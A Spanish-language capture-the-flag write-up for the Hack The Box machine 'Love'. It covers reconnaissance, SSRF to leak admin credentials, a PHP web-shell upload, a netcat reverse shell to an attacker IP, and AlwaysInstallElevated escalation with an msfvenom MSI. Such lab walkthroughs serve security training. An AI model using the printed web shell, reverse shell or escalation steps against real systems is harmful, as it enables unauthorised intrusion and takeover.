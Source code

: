 # HTB-Love `10.10.10.239`

*Server Side Request Forgery (SSRF)*

*Exploiting Voting System*

*Abusing AlwaysInstallElevated (msiexec/msi file)*

### Intrusión
Como siempre empezamos con nuestra sentencia nmap

```
nmap -p- --open -sCV -sS --min-rate 5000 -n -Pn -vvv 10.10.10.239 -oN Targeted
```
 
La página web aloja un formulario de voting system

![vote](/images/Voting.jpg)

El cual tiene ciertas vulnerabilidades

![searchsploit](/images/searchsploit.jpg)

No es vulnerable a SQL Injection, y en este caso el resto de exploits son con autenticación.

Podemos enumerar directorios y no llegaremos a mucha conclusión.

Si enumeramos subdominios con wfuzz, encontramos uno: `staging`

```
wfuzz -c -t 200 --hc=404 --hh=4388 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

![wfuzz](/images/wfuzz.jpg)

En ella encontramos un analizador de archivos.

Si introducimos nuestra URL podemos ver que escanea nuestra máquina poniéndonos en escucha

![nuestra](/images/nuestra.jpg)

`tcpdump -i tun0`

![tcpdump](/images/tcpdump.jpg)

Pero sin embargo no logramos gran cosa partiendo desde aquí, pero llegamos a la conclusión de que lo que hace es leer el contenido del servidor http que hemos creado… vamos a enumerar puertos que tiene abiertos la máquina a los cuales no nos dejaba entrar `(5000, 5986)`

Al escanear el puerto 5000, tenemos cosas interesantes

![creds](/images/creds.jpg)

Tenemos credenciales `admin: @LoveIsInTheAir!!!!`

Podemos volver a la página de login e iniciar sesión en /admin/login.php

![admin](/images/admin-login.jpg)

Investigando un poco la web, podemos ver que nos permite añadir votantes y adjuntar una imagen, que se sube al directorio /images
Bastante obvio, vamos a subir una Shell cmd de php

```
<?php system($_REQUEST['cmd']); ?>
```

![php](/images/shellphp.jpg)
 
![success](/images/success.jpg)

En el directorio /images, encontraremos nuestra Shell

![barra](/images/barraimages.jpg)
 
Y ya tenemos ejecución de comandos desde la barra de búsqueda.

![ejec](/images/ejecucion.jpg)
 
Introducimos una reverse shell de nc para Windows:

```
nc -e cmd 10.10.14.11 443
```

![nc](/images/nc.jpg)

Y obtenemos la Shell
 
![shell](/images/shell.jpg)
 

### Escalada de Privilegios

Los dos comandos usuales de whoami no nos arrojan mucha información

![whoami](/images/whoami.jpg)

Nos vamos a copiar el winpeas

![win1](/images/winpeas1.jpg)

![win2](/images/winpeas2.jpg)
 
Al Ejecutarlo, encontramos que AlwaysInstallElevated = 1

![allways](/images/Allways.jpg)

Vamos a crearnos un payload con msf venom

![msf](/images/msfvenom.jpg)

Y lo subimos a la máquina

![subimos](/images/subimos.jpg)

Lo ejecutamos con la siguiente sentencia:

```
msiexec /quiet /qn /i reverse.msi
```

![msi](/images/msiexec.jpg)

Y poniéndonos en escucha obtenemos una Shell de administrador, pudiendo obtener la root.txt y completar la máquina.

![ncroot](/images/ncroot.jpg)
 
 

